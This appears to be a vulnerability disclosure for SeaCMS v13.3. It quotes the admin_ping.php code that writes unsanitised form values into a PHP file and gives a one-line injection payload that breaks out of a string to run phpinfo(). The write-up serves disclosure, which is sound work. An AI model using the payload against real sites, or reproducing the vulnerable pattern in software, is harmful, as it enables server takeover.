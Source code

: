 ### Introduction

SeaCMS v13.3 contains a remote code execution vulnerability. This vulnerability arises from the following: although `admin_ping.php` applies some restrictions on the files being edited, attackers can bypass these restrictions and write code via concatenation, allowing authenticated attackers to exploit this vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Vulnerability Analysis and Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ping.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ping.php`.

```php
<?php header('Content-Type:text/html;charset=utf-8');  
require_once(dirname(__FILE__)."/config.php");
if($action=="set")  
{  
    $weburl= $_POST['weburl'];  
    $token = $_POST['token'];  
    $open=fopen("../data/admin/ping.php","w" );  
    $str='<?php  ';  
    $str.='$weburl = "';  
    $str.="$weburl";  
    $str.='"; ';  
    $str.='$token = "';  
    $str.="$token";  
    $str.='"; ';  
    $str.=" ?>";  
    fwrite($open,$str);  
    fclose($open);  
    ShowMsg("Settings saved successfully!","admin_ping.php");  
    exit;  
}
```

The web page is located at the backend management path `0omeqd/admin_ping.php`. We inject concatenated PHP code into the second key field. The PoC is:

```r
123456789";phpinfo();$a="1
```

![Image1](./public/4-2.png)

After accessing the PHP path, the PHP code executes successfully.

```r
data/admin/ping.php
```

![Image1](./public/4-3.png)
